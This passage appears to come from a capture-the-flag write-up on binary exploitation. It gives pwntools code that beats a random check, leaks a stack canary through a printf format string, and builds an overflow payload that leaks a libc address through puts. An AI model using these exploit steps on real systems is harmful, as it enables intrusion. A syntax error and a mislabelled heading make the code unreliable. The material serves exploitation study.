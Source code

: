 ```python
    print(f"The random value is {rand_remote}")

if __name__ = "__main__":
    main()
```
Code along these lines can beat the random check and get the values.
The local value is -2527, and the remote value is -3727.
Now it's time to leak the canary.
# Leaking the Canary
The only method for leaking the canary is utilizing the printf in order to leak the canary.
## Code to Leak the Canary
```python
def leak_stack_row(io, i):
    io.sendline(str(remote_guess))
    io.sendline(f"%{i}$lx")
    io.recvuntil("Congrats: ")
    result = io.recvline().decode()
    return result 

def leak_canary(io):
    # printf, canary
    return leak_stack_row(io, 135)
```
This works in two parts.
The first part is the format string lx.
That allows the printf to get the ith value on the stack.
If the canary is the 135th row on the stack, then supply that number and get it directly.
The \"leak_canary\" function simply calls the \"leak_stack_row\" function with 135 as the argument.
# Leaking Libc 
To leak libc, puts call to puts will be used.
This will consist of the payload to cause the leak, and the code to collect the leak.
## Code to Leak Canary
```python
def leak_puts(io):
    result = leak_canary(io)
    canary = result
    print(f"Canary = {canary}")
    payload = pwn.flat(
        b"A"*padding_canary,
        pwn.pack(int(canary, 16)),
        b"A"*(padding-padding_canary-4),
        pwn.pack(elf.plt["puts"]),
        pwn.pack(elf.symbols["main"]),
        pwn.pack(elf.got["puts"])
    )
    io.sendline(str(remote_guess))
    io.sendline(payload)
    for x in range(7):
        io.recvline()
    leak = io.recv(4)
    leak = pwn.u32(leak)
    return leak
```
This payload leaks the canary, and then collects the first 4 bytes of the output.
This is important because there will be 8 bytes of output.
The first 4 are the got entry of puts.
It also decodes this into a useable memory address in the code.